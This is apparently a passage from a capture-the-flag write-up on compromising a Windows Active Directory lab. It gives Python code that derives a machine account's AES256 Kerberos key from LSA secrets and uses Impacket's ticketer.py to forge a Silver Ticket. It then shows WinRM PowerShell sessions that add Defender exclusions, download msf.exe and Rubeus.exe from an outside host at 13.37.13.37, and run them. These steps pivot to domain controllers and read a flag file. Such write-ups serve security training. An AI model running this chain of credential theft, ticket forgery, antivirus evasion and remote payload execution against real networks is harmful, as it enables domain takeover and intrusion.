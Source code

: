 ```python
record = LSA_SECRET_BLOB(plainText)
machine_password = record['Secret']

salt = '%shost%s.%s' % (fqdn.upper(), machine_name.lower(), fqdn.lower())
fixedPassword = machine_password.decode('utf-16-le', 'replace').encode('utf-8', 'replace')
key = string_to_key(int(constants.EncryptionTypes.aes256_cts_hmac_sha1_96.value), fixedPassword, salt.encode())
key = key.contents.hex()

print(f"Machine Name: {machine_name}")
print(f"Domain: {domain}")
print(f"Domain SID: {domain_sid}")
print(f"FQDN: {fqdn}")
print(f"AES256 Key: {key}")
```

Running this script will print out all the values needed for crafting a Silver Ticket using the AES key.

```bash
$ python3 aes_dump.py
Machine Name: factws
Domain: FACTORIES
Domain SID: S-1-5-21-3201321165-582068547-786307507
FQDN: factories.mammamia.local
AES256 Key: fe9004488cd6c90da56a44a4c1a862742214d191e6a1ef46c3d2b21addbc568f
```

We can then use the `ticketer.py` script from Impacket to forge a Silver Ticket using the information we obtained from the registry dump:

```bash
$ ticketer.py -spn HTTP/factws.factories.mammamia.local -domain factories.mammamia.local -domain-sid S-1-5-21-3201321165-582068547-786307507 -aesKey fe9004488cd6c90da56a44a4c1a862742214d191e6a1ef46c3d2b21addbc568f attacker
Impacket v0.11.0 - Copyright 2023 Fortra

[*] Creating basic skeleton ticket and PAC Infos
[*] Customizing ticket for factories.mammamia.local/attacker
[*]  PAC_LOGON_INFO
[*]  PAC_CLIENT_INFO_TYPE
[*]  EncTicketPart
[*]  EncTGSRepPart
[*] Signing/Encrypting final ticket
[*]  PAC_SERVER_CHECKSUM
[*]  PAC_PRIVSVR_CHECKSUM
[*]  EncTicketPart
[*]  EncTGSRepPart
[*] Saving ticket in attacker.ccache
```

#### WinRM with Kerberos Authentication

Now that we have a Silver Ticket, we can use it to authenticate to the factory PC using Kerberos authentication. But how do we get a shell using Kerberos authentication over the WinRM protocol?


[factws.factories.mammamia.local]: PS C:\Users\Amministratore.FACTORIES\Documents> whoami
[factws.factories.mammamia.local]: PS C:\Users\Amministratore.FACTORIES\Documents> hostname
[factws.factories.mammamia.local]: PS C:\Users\Amministratore.FACTORIES\Documents> mkdir C:\Windows\Temp\attacker
[factws.factories.mammamia.local]: PS C:\Users\Amministratore.FACTORIES\Documents> Add-MpPreference -ExclusionPath C:\Windows\Temp\attacker
[factws.factories.mammamia.local]: PS C:\Windows\temp\attacker> wget http://13.37.13.37:1234/msf.exe -o msf.exe
[factws.factories.mammamia.local]: PS C:\Windows\temp\attacker> wget http://13.37.13.37:1234/Rubeus.exe -o rubeus.exe
[factws.factories.mammamia.local]: PS C:\Windows\temp\attacker> .\rubeus.exe createnetonly /program:"C:\Windows\Temp\attacker\msf.exe"
[factrodc.factories.mammamia.local]: PS C:\Users\silvia.galli.FACTORIES\Documents> whoami                                         
[factrodc.factories.mammamia.local]: PS C:\Users\silvia.galli.FACTORIES\Documents> mkdir C:\Windows\Temp\attacker
[factrodc.factories.mammamia.local]: PS C:\Users\silvia.galli.FACTORIES\Documents> Add-MpPreference -ExclusionPath C:\Windows\Temp\attacker
[factrodc.factories.mammamia.local]: PS C:\Users\silvia.galli.FACTORIES\Documents> cd C:\Windows\temp\attacker
[factrodc.factories.mammamia.local]: PS C:\Windows\temp\attacker> wget http://13.37.13.37:1234/msf.exe -o msf.exe
[factrodc.factories.mammamia.local]: PS C:\Windows\temp\attacker> .\msf.exe
[hqdc.mammamia.local]: PS C:\Users\amministratore.FACTORIES.MAMMAMIA.LOCAL\Documents> whoami                                         
[hqdc.mammamia.local]: PS C:\Users\amministratore.FACTORIES.MAMMAMIA.LOCAL\Documents> hostname              
[hqdc.mammamia.local]: PS C:\Users\amministratore.FACTORIES.MAMMAMIA.LOCAL\Documents> cd C:\Users\amministratore\desktop
[hqdc.mammamia.local]: PS C:\Users\amministratore\desktop> ls
[hqdc.mammamia.local]: PS C:\Users\amministratore\desktop> cat flag.txt                      